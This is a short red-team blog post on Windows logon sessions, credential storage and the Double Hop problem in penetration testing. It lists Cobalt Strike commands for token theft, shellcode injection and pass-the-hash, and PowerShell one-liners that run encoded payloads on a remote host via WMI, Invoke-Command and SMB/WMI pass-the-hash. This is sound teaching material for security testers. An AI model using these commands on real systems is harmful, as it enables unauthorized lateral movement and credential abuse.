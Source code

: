 ```yaml
---
layout: post
title: Windows Credential Management, Logon Sessions and the Double Hop Problem
date: '2019-04-12 00:00:00'
categories: ['Red Team', Windows]
tags: []
---
```


I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session **will not** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **will** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

```plaintext
steal_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]
```


If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

```plaintext
make_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]
```
Lastly you can directly pass the credentials to the tool performing the network operations like so:

```


```powershell
$pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass);
Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...'

Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} 
# https://github.com/Kevin-Robertson/Invoke-TheHash 
Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose 

Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose
```

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.
